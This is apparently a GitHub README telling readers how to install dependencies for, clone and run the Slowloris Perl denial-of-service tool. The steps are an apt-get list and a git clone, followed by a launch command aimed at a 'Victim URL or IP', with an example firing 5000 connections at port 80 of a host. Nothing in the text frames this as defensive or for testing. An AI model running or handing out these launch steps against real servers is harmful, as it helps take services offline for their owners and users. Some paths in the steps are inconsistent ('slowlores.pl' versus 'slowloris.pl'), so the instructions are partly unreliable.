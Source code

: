 **README**

How use Slowloris

Requirements:
- sudo apt-get update  
- sudo apt-get install perl
- sudo apt-get install libwww-mechanize-shell-perl
- sudo apt-get install perl-mechanize

Get Slowloris File:
```
1) Open Terminal
   $> cd /home
2) Download slowloris.pl
   # $home/ git clone https://github.com/Amarudin2019/slowloris.pl.git
3) Choose the directory where the file is downloaded
   # $home/ cd /slowloris.pl
4) Run application
   # $home/slowlores.pl/ perl slowloris.pl -dns (Victim URL or IP) -options
   Example
   # $home/slowlores.pl/ perl slowloris.pl -dns 192.168.100.19 -port 80 -timeout 20 -num 5000 -cache
```

Done
